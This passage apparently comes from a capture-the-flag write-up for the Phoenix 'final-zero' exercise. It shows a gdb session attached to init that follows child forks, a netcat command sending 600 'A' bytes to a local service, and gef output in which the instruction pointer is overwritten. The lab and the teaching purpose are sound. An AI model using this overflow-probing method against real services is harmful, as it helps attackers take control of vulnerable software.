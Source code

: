```
```

But when we attach and try to break on or disassemble the `get_username` function, it fails. The reason seems to be that the function is at a very low memory address that we can't access.

```
(gdb) disas get_username
Dump of assembler code for function get_username:
   0x00000000004007cd <+0>:     Cannot access memory at address 0x4007cd
```

We'll revisit that later if necessary. Let's first try crashing it! We should be able to use gdb to examine the crash. This time we attach to the `init` process and instruct gdb to follow child forks. This way, we can run our exploit as a whole without having to first establish a connection, then attaching to the spawned process and only then sending our payload. This is especially useful for "fire-and-forget" payloads sent with `netcat`. Later, in Python, we could also first create as socket and wait for some user input while we attach to the newly spawned process in the other terminal.

```
root@phoenix-amd64:~# gdb -p 1
gef➤  set follow-fork-mode child
gef➤  continue

# As a regular user

user@phoenix-amd64:~$ python -c 'print("A"*600)' | nc 127.0.0.1 64003
Welcome to phoenix/final-zero, brought to you by https://exploit.education

# Back in gdb

Thread 2.1 "final-zero" received signal SIGSEGV, Segmentation fault.
[Switching to process 4274]
0x4141414141414141 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0000000000600d00  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x4141414141414141 ("AAAAAAAA"?)
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00007fffffffec90  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffec61  →  0x4100000000000000
$rdi   : 0x0000000000600f01  →  0x0000000000000000
$rip   : 0x4141414141414141 ("AAAAAAAA"?)
$r8    : 0x17
$r9    : 0x8080808080808080
$r10   : 0x8080808080808080
$r11   : 0x1
$r12   : 0x00007fffffffed28  →  0x00007fffffffeedf  →  "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr[...]"
$r13   : 0x00000000004008b2  →  0x30ec8348e5894855
$r14   : 0x0
$r15   : 0x0
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffec90│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"   ← $rsp
0x00007fffffffec98│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0x00007fffffffeca0│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAA"
0x00007fffffffeca8│+0x0018: "AAAAAAAAAAAAAAAA"
0x00007fffffffecb0│+0x0020: "AAAAAAAA"
0x00007fffffffecb8│+0x0028: 0x0000000000000000
0x00007fffffffecc0│+0x0030: 0x0000000000000001
0x00007fffffffecc8│+0x0038: 0x00007ffff7d8fd62  →  0x41ffff18d6e8c789
```